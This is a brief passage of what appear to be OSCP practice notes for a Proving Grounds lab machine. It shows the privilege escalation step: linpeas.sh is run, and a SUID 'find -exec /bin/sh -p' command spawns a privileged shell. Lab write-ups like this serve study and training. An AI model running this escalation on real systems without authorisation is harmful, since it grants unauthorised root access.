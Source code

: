 
#### Privilege Escalation

execute linpeas.sh

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h17m45s_001_.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Quackerjack/Quackerjack_2021.07.01_23h21m38s_003_.png)


